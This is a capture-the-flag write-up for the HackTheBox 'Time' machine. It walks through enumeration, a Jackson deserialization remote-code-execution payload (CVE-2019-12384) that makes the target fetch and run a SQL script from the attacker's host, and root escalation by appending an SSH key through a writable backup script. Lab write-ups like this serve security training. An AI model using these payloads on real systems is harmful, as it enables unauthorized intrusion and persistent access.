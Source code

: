 <script src="https://www.hackthebox.eu/badge/36120"></script>

<h2>Time - HackTheBox - WriteUp</h2>


<h1>Steps</h1>

<hr>1° step: Nmap scan
<hr>2° step: Dirsearch (nothing interesting found)
<hr>3° step: Enumeration
<hr>3° step: Test a vector in the web application
<hr>4° step: Getting a shell
<hr>5° step: Privilege escalation


<h1>Nmap</h1>
![image](https://i.imgur.com/nNgEXkK.png "Nmap Scan")<br>
We found two ports: 22 and 80.


While I was enumerating the webserver, I left running dirsearch.
![image](https://imgur.com/iFMN0Fv.png "Dirsearch")<br>
Nothing interesting found.


In the webserver, there's a "JSON Beautifier and Validator"<br>
Testing "Beautify" option, nothing curious was found.
![image](https://imgur.com/oXxi1e0.png "Webserver")<br>

But, if we change to "Validate(Beta!)" option, we see something interesting.
![image](https://imgur.com/Ya1EBHq.png "Validate vector")<br>
An error, that's awesome! Beta features are always interesting, let's take a look for it.

That's the complete error:
![image](https://imgur.com/nGsqPqX.png "Complete error")<br>
I marked an interesting factor, let's research it.


After some research, I found and read some articles talking about "Jackson Deserialization" and a "RCE" in this library.<br>
I tried to send '{"FDivision"}' and the error changed:
![image](https://imgur.com/TMCdfOe.png "New error")<br>

Searching on google and reading a little, I checked a solution for this error.<br>
We need to use "[]" instead of "{}"<br>
Following this thought, I got this response:<br>
![image](https://imgur.com/yJ0VYq1.png "Could not resolve type id 'FDivision', no class found")<br>

Searching for it, I found an exploit. [Github exploit](https://github.com/jas502n/CVE-2019-12384)<br>

<h1>Let's start exploiting.</h1><br>

First, we need to create a "inject.sql", as was said [here](https://github.com/jas502n/CVE-2019-12384)<br>

Then, start your listeners.<br>
![image](https://imgur.com/sPCiXxN.png "NC listener")<br>
![image](https://imgur.com/amInJkc.png "Python listener")<br>

Now we can send the payload:
<p>"["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.197/inject.sql'"}]"</p><br>

And we got the user!<br>
![image](https://imgur.com/sramzmY.png "user flag")<br>

<h1>Privilege Escalation</h1><br>

If we run any enumeration script, You'll see a script called "timer_backup.sh"<br>
I won't print the exit of this tools, because it's too big.<br>

Here we can see the permissions of this script.<br>
![image](https://imgur.com/5TO81Ht.png "Script perms")<br>
We can write into the file!<br>
Lets try to put our ssh key.<br>

' echo "echo KEY >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh '<br>
(You need to change "KEY" to your ssh public key)<br>
![image](https://imgur.com/YIhS0bZ.png "command")<br>

Then we can login as root in SSH:<br>
![image](https://imgur.com/X0x4wke.png "rooted")<br>

<h1>Just to curious: It has a second way to root.</h1>

![image](https://imgur.com/SVYgD87.png "Second way to root")
